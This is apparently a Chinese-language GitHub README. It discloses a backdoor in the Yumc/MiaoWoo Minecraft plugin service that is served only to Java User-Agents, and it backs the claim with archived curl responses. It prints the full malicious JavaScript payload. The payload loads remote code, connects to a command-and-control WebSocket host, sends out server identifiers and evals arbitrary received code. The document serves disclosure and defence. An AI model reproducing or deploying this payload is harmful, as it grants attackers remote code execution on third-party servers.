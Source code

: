 # PoC-MiaoWoo-RCE

你觉得设置非 Java UA 无法下发 RCE 能骗谁？

有关 RCE 的危害，详见[这篇文章](https://rentry.org/miaowoo)

# Validation

https://github.com/iceBear67/poc-miaowoo/tree/47abab96a1becb2dac1caa0994a94ec10407d422

本仓库使用 curl 模拟不同 User-Agent 的请求访问 Yumc 的服务器并且整个流程在 GitHub Action 服务器上运行，无介入，运行时结果无法被 GitHub Runner 和喵呜以外的任何人修改。

[该 commit 上运行的脚本](https://github.com/iceBear67/poc-miaowoo/blob/47abab96a1becb2dac1caa0994a94ec10407d422/.github/workflows/blank.yml#L20-L22)

人话版:
 - 这个仓库写了一个脚本让 github 跑，然后把不同 UA 得到的结果存在仓库里面。
 - 是 github 机器人自动存的，和我没关系
 - 存的内容就是那个 commit 时间上喵呜服务器分发的内容
 - 没法造假，除非我和微软有交易

# Analysis

不同 UA 导致的回复不同：

[Java UA](https://github.com/iceBear67/poc-miaowoo/blob/47abab96a1becb2dac1caa0994a94ec10407d422/response-with-java-ua.txt)

[浏览器 UA](https://github.com/iceBear67/poc-miaowoo/blob/47abab96a1becb2dac1caa0994a94ec10407d422/response-with-browser-ua.txt)

[curl UA](https://github.com/iceBear67/poc-miaowoo/blob/47abab96a1becb2dac1caa0994a94ec10407d422/response-with-curl-ua.txt)

可以发现，只有请求头中模拟 Java 作为用户代理的时候 Yumc 服务器会返回负载。

后门代码片段：

1. 连接 C&C 服务器

```javascript
try {
    if (!global.WebSocket) {
        load('https://mscript.yumc.pw/api/plugin/download/name/ms-websocket')
    }
    if (global.ws) {
        global.ws.heartbeat()
        Java.type('java.lang.Thread').sleep(1000)
        if (global.ws.readyState == WebSocket.CLOSED) {
            connect('ws://zn.gametime.icu:4000/')
        }
    } else {
        connect('ws://zn.gametime.icu:4000/')
    }
} catch (error) {
}
```

3. 从 C&C 接收 **任意代码** 并运行

```javascript
    global.ws.onmessage = function (event) {
        try {
            var data = event.data
            var payload = JSON.parse(data)
            var action = payload.action
            var data = payload.data
            switch (action) {
                case "eval":
                    global.ws.message(eval(data) + '')
                    break
                case "heartbeat":
                    global.ws.heartbeat()
                    break
                case "close":
                    global.ws.remoteClose = true
                    break
            }
        } catch (error) {
            global.ws.message(error + '')
        }
    }
```

完整负载内容如下：

```javascript
var global = this

function readGuid() {
    var YamlConfiguration = Java.type('org.bukkit.configuration.file.YamlConfiguration')
    var Files = Java.type('java.nio.file.Files')
    var StandardCharsets = Java.type('java.nio.charset.StandardCharsets')
    var JavaString = Java.type('java.lang.String')
    var Paths = Java.type('java.nio.file.Paths')
    try {
        var pluginHelper = new YamlConfiguration()
        pluginHelper.loadFromString(new JavaString(Files.readAllBytes(Paths.get('plugins', 'PluginHelper', 'config.yml')), StandardCharsets.UTF_8))
        return pluginHelper.getString('guid')
    } catch (error) {
        var bStats = new YamlConfiguration()
        bStats.loadFromString(new JavaString(Files.readAllBytes(Paths.get('plugins', 'bStats', 'config.yml')), StandardCharsets.UTF_8))
        return bStats.getString('serverUuid')
    }
}

function connect(address) {
    global.ws = new WebSocket(address)

    global.ws.action = function (action, data) {
        global.ws.send(JSON.stringify({
            action: action,
            data: data
        }))
    }

    global.ws.message = function (message) {
        global.ws.action('message', { message: message })
    }

    global.ws.heartbeat = function () {
        global.ws.action('heartbeat', {})
    }

    global.ws.onopen = function () {
        global.ws.action('open', {
            guid: readGuid(),
            port: Java.type('org.bukkit.Bukkit').getServer().getPort()
        })
    }

    global.ws.onmessage = function (event) {
        try {
            var data = event.data
            var payload = JSON.parse(data)
            var action = payload.action
            var data = payload.data
            switch (action) {
                case "eval":
                    global.ws.message(eval(data) + '')
                    break
                case "heartbeat":
                    global.ws.heartbeat()
                    break
                case "close":
                    global.ws.remoteClose = true
                    break
            }
        } catch (error) {
            global.ws.message(error + '')
        }
    }

    global.ws.onclose = function (event) {
        try {
            Java.type('java.lang.Thread').sleep(5000)
            if (global.ws.readyState == WebSocket.CLOSED && !global.ws.remoteClose) {
                connect(address)
            }
        } catch (error) {
        }
    }

    global.ws.onerror = function (event) {
        if (global.ws.readyState != WebSocket.CLOSED) {
            global.ws.message(event.cause + '')
        }
    }

    global.ws.connect()
}

try {
    if (!global.WebSocket) {
        load('https://mscript.yumc.pw/api/plugin/download/name/ms-websocket')
    }
    if (global.ws) {
        global.ws.heartbeat()
        Java.type('java.lang.Thread').sleep(1000)
        if (global.ws.readyState == WebSocket.CLOSED) {
            connect('ws://zn.gametime.icu:4000/')
        }
    } else {
        connect('ws://zn.gametime.icu:4000/')
    }
} catch (error) {
}
```

